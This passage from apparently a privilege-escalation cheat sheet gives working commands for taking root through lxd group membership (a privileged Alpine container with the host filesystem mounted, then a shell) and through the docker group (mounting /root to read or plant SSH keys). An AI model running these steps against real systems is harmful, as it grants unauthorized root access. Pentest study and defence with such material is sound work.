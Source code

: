     id
    
    uid=1009(devops) gid=1009(devops) groups=1009(devops),110(lxd)

Unzip an image for axample `Alpine` (Ubuntu distibutions)

    unzip alpine.zip

Start the `LXD initialization process`. Choose the defaults for each prompt. Consult this [post](https://www.digitalocean.com/community/tutorials/how-to-set-up-and-use-lxd-on-ubuntu-16-04) for more information on each step.

    lxd init
    
    Do you want to configure a new storage pool (yes/no) [default=yes]? yes
    Name of the storage backend to use (dir or zfs) [default=dir]: dir
    Would you like LXD to be available over the network (yes/no) [default=no]? no
    Do you want to configure the LXD bridge (yes/no) [default=yes]? yes
    
    /usr/sbin/dpkg-reconfigure must be run as root
    error: Failed to configure the bridge

`Import` the local image

    lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine

`Start` a  privileged container with the `security.privilege` set to `true` to run container without a UID mapping making the root user in the container the same as the root user on the host

    lxc init alpine r00t -c security.privileged=true
    
    Creating r00t

`Mount` the host file system

    lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
    
    Device mydev added to r00t

Finally, spawn a shell inside the container instance. We can now browse the mounted host file system as root.

    lxc start r00t
    lxc exec r00t /bin/sh


<a id="org9a17bae"></a>

### Docker

Placing a user in the docker group is essentially equivalent to root level access to the file system without requiring a password. Members of the docker group can spawn new docker containers. One example would be running the command `docker run -v /root:/mnt -it ubuntu`. This command create a new Docker instance with the /root directory on the host file system mounted as a volume. Once the container is started we are able to browse to the mounted directory and retrieve or add SSH keys for the root user.


<a id="orgc2cae37"></a>

### Disk
